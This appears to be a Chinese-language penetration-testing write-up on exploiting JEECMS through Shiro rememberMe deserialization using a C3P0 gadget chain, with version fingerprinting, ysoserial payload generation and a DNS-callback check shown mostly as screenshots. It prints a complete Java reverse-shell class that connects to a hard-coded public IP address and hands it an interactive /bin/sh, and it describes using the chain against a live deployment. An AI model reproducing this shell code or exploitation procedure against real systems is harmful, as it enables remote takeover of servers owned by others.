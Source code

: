 # JEECMS的Shiro-C3P0链

### 寻找信息

特征1

![image-20210912220543538](JEECMS的Shiro-C3P0链.assets/image-20210912220543538.png)



组件信息

![image-20210912220838998](JEECMS的Shiro-C3P0链.assets/image-20210912220838998.png)





tomcat v7

![image-20210912221010075](JEECMS的Shiro-C3P0链.assets/image-20210912221010075.png)

v9.X安装说明

![image-20210912221026223](JEECMS的Shiro-C3P0链.assets/image-20210912221026223.png)

找到v9.3安装包，发现无法使用CC链

![image-20210912221549937](JEECMS的Shiro-C3P0链.assets/image-20210912221549937.png)

![image-20210912221937351](JEECMS的Shiro-C3P0链.assets/image-20210912221937351.png)



另外找到v8.1版本为shiro 1.3.0，v7为shiro 1.2.2，cc均为3.1

![image-20210912225837120](JEECMS的Shiro-C3P0链.assets/image-20210912225837120.png)



### 本地调试

已知CC、CB链无法使用，shiro-CB链可能无法使用，DNS链可以，此处可以考虑的则是c3p0或者hibernate

本地小测试一下发现版本0.9.5.2不对，不能使用。

![image-20210913024042500](JEECMS的Shiro-C3P0链.assets/image-20210913024042500.png)

后来发现依赖是0.9.1.1，v8.1也是一样

![image-20210913024457514](JEECMS的Shiro-C3P0链.assets/image-20210913024457514.png)

修改yso依赖

![image-20210913023959534](JEECMS的Shiro-C3P0链.assets/image-20210913023959534.png)

生成序列化数据

![image-20210913024645068](JEECMS的Shiro-C3P0链.assets/image-20210913024645068.png)

生成rememberMe数据

![image-20210913024658388](JEECMS的Shiro-C3P0链.assets/image-20210913024658388.png)

发送rememberMe数据

![image-20210913024725381](JEECMS的Shiro-C3P0链.assets/image-20210913024725381.png)

获得Dns结果

![image-20210913024624287](JEECMS的Shiro-C3P0链.assets/image-20210913024624287.png)



### 实战利用

生成命令执行exp的jar包

![image-20210913161525808](JEECMS的Shiro-C3P0链.assets/image-20210913161525808.png)



放到服务器上开启http服务，再用c3p0链生成payload执行

![image-20210913161618231](JEECMS的Shiro-C3P0链.assets/image-20210913161618231.png)



可以看到支持sh和bash，但只能wget，没有curl命令

![image-20210913161736776](JEECMS的Shiro-C3P0链.assets/image-20210913161736776.png)



### 到此一游

多种方法测试反弹Shell不成功，无奈只能用java Socket反弹Shell，因为是docker所以可以执行的命令非常少

![image-20210913165714611](JEECMS的Shiro-C3P0链.assets/image-20210913165714611.png)



```java
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class exp3 {
    public exp3() throws IOException, InterruptedException {
        String host="121.36.84.244";
        int port=7555;
        String cmd="/bin/sh";
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
        Socket s=new Socket(host,port);
        InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
        OutputStream po=p.getOutputStream(),so=s.getOutputStream();
        while(!s.isClosed()) {
            while(pi.available()>0) {
                so.write(pi.read());
            }
            while(pe.available()>0) {
                so.write(pe.read());
            }
            while(si.available()>0) {
                po.write(si.read());
            }
            so.flush();
            po.flush();
            Thread.sleep(50);
            try {
                p.exitValue();
                break;
            }
            catch (Exception e){
            }
        };
        p.destroy();
        s.close();
    }

//    public static void main(String[] args) throws IOException, InterruptedException {
//        new exp3();
//    }
}
```



### 题外话

————————————————————————————————————————————————————————————

此外，理论上还有Shiro-CB原生链

![image-20210913025625835](JEECMS的Shiro-C3P0链.assets/image-20210913025625835.png)





测试时惊奇的发现shiro 1.3.0居然无法使用shiro-CB，因为没有利用到父类的CC依赖。那么实战环境使用shiro-CB链无法成功就是自然而然的事情了。

![image-20210913040045157](JEECMS的Shiro-C3P0链.assets/image-20210913040045157.png)



但很怪异的一点是添加CC3.1依赖后

![image-20210913041306631](JEECMS的Shiro-C3P0链.assets/image-20210913041306631.png)

完全可以使用CC-K1链

![image-20210913041334718](JEECMS的Shiro-C3P0链.assets/image-20210913041334718.png)

而V8.1版本是存在CC3.1的，项目快结束了，待后续研究

![image-20210913041438636](JEECMS的Shiro-C3P0链.assets/image-20210913041438636.png)

